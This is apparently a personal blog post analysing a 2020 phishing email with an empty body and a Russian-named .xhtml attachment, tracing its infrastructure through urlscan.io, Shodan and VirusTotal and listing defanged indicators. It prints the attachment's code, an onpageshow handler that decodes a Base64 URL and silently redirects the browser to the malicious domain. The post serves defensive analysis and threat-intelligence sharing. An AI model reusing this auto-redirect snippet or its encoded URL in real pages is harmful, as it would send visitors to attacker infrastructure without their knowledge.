```yaml
---
layout: post
title:  "Phishing Email 20201019-001"
date:   2022-04-26 20:52:47 -0400
categories: phishing analysis
---
```

A while back I received a curious email and immediately thought that it was a good candidate for a little bit of analysis. It had a nonsensical subject line and an attachment with what appeared to be a Russian filename. The body of the email was empty. And for all of that, it somehow managed to miss my GMail's spam filter and land directly in my inbox flagged as Important. However, I had just started a new job and was a little swamped in learning some new tools. So, I saved a copy of the email and its attachment with the intent on coming back to dig into it at a later date.

That later date turned out to be six months in the future.

But, stale as the suspicious email was, I decided to crack it open and find out what it was all about anyway. It was just too enticing to leave unexplored forever. I'm glad I did! Even though the email was old enough for its original attack infrastructure to have evaporated, it still held some interesting little insights into the email's original purpose.

### Primary Analysis

When approaching a potentially suspicious email, I like to start with the email itself and determine any indicators or behaviors that can be determined without touching any external systems.

I'll start with the email's details:

```
To: [11 recipients redacted]
From: Katrice Dorrell <katricedorrell[@]gmail.com>
Subject Z XJ O ZX
Attachment: Играть E D Y .xhtml
Body: [EMPTY]
```

Looking first at the recipients (redacted in this report) reveals some commonalities, but not much. The email included 11 recipients all in the TO line and all were GMail addresses. That's pretty much where all of the commonalities ended. A few quick searches in Have I Been Pwned revealed that two of the accounts appeared in the Exploit.in credential dump, and two were in Collection #1. It's possible that all of the addresses appeared in a common undisclosed breach, but who's to say? At any rate, there's not a whole lot that can be gleaned from the targets.

Turning to the sender, it's another GMail account, which makes most of the other email header information not super useful for attribution. Searching for the sender email in google didn't turn up any information and neither did searching for Katrice Dorrell in a wide range of social media sites. It's likely, then, that this email address was genned up for this particular phishing operation. Suffice to say, it's probably another dead end.

As for the email's subject, it seems fairly random to me, but just to be sure I ran it through some search engines to see if anything came up. The only thing of interest was that Google auto-corrected ZXJOZX to XBox, so maybe the sender hoped unwary recipients would make the same conclusion.

Since the email's body is empty, the only primary place left to analyze is the attachment.

Luckily, the file is a simple HTML file, meaning I can safely open it up in a plain text editor with no need to muck around with more advanced forensic tools.

First, I'm curious if the file name means anything interesting. According to online translators, "Играть" is Russian for "Play." Maybe that's related to the potential XBox connection above?

Looking inside the file, I found a very short HTML document:

{% highlight html %}
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<body onpageshow="document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));">
{% endhighlight %}

The header is pretty standard boilerplate, but the JavaScript in the document body immediately caught my attention. It starts with an `onpageshow` assignment, which is a way to execute a Javascript function when a pageload event happens on the document. This in turn triggers a function call:

{% highlight javascript %}
document.location.replace(window.atob('aHR0cDovL2tlaXRhcm8wMDAxLnByby9EY0x0ZFM/MTE3MDIxNDg4ODc3NzI0NSA='));
{% endhighlight %}

The `location.replace()` Javascript function replaces the content of the HTML document with the document located at another URL. In this case, the argument is another function, `window.atob()`, which decodes a Base64 string into standard text.

Decoding the argument to that function yields the following URL:
`http[://]keitaro0001[.]pro/DcLtdS?1170214888777245`

Now it's really looking phishy! I was pretty convinced at this point that I had a malicious payload on my hands. But, since the file didn't contain anything executable other than the above Javascript, any more intelligence would have to be gathered from outside sources.

## Secondary Research

Moving on to secondary sources, I turned to urlscan.io to see if I could get any information about the URL itself. Urlscan is a tool that will scan a web page and provide information such as its IP address, screenshots of the rendered page, and other stats about the site's behavior.

The initial scan didn't turn up a whole lot of information. As I mentioned above, this is a rather old email in the world of phishing campaigns, and it's unlikely that much of the original attack infrastructure was still standing. At the time that I scanned it, the domain resolved to a U.S. based IP address, and the URL was returning a Namecheap splash page indicating that the domain had been suspended due to issues with its whois verification. For those unfamiliar, whois data is information about the person or organization that registered a domain name. In this case, the whois verification issue reinforces the hypothesis that this was at some point a malicious site.

The only other interesting piece of information is that urlscan.io showed that this particular domain had appeared in 31 scans. I clearly wasn't the only person interested in it!

Reviewing those scans I found that the majority of them had been performed six months ago, right around the time that I received the email. Which means it was probably a wide cast but short lived campaign. This is right in line with what I would expect. Among the previous scans, there were 6 different IP addresses, most of which were located in Russia and owned by various Russian hosting services. Using Shodan, a service that performs periodic scans of public IP addresses across the Internet, showed that only one of the IP addresses in question was currently running a Web server.

While the attach infrastruture was no longer around for analysis, the historical data from Urlscan.io does tell a story. The domain in question appears to have bounced between several Russian-based IP addresses belonging to several different hosting providers over a short period of time before the domain itself was taken offline by the registrar, possibly due to evidence of malicious activity.

There's one final place I went to in my investigation into this email. To see if the domain had any association with any known malware, I did a search in VirusTotal. Sure enough, eight of VirusTotal's malware detection engines reported the domain as suspicious or malicious. Additionally, VirusTotal observed a file identified as a generic Trojan agent communicating with the domain. While there isn't much to indicate which Trojan variant this was, it's likely that the program would have attempted to perform some sort of exploitation and deploy additional malware if I had actually loaded it onto my computer.

## Conclusion

Despite the trail being cold, there is still very clear evidence that this email contained a malicious payload that could have potentially severely compromised my computer. Given how unusual the email was, I'm not sure how many people would have fallen for it, but then again phishing is a numbers game. And, the fact that it not only evaded GMail's spam filter, but also managed to get flagged as Important (possibly due to it being sent directly to a limited number of recipients), is concerning. If even just a fraction of a percent of targets download and open the malicious attachment, that can still translate to hundreds of thousands of machines if the distribution is wide enough.

At any rate, it provides an important lesson about not blindly trusting email filters to protect us from harm, and to approach everything in the inbox with caution.

## Primary Artifacts

### Email Addresses
```
katricedorrell[@]gmail.com
```

### File Names
```
Играть E D Y .xhtml
```

### URLs
```
http[://]keitaro0001[.]pro/DcLtdS?1170214888777245
```

### Domains
```
keitaro0001[.]pro/
```

## Secondary Artifacts

### IP Addresses
```
31[.]41[.]46[.]64
194[.]48[.]155[.]110
185[.]185[.]68[.]131
185[.]251[.]91[.]65
178[.]208[.]75[.]4
46[.]8[.]158[.]193
```

### Malware Signatures
```
TROJAN.AGENT.FOHY
```

### File Names
```
ПРИВАТНО OPLF181.aipahHZTD .rar
```

### Hashes
```
de6da06bd31ff942041de115d7134b92e6bd1fbca99412548a264e316b19cc84 (SHA256)
```
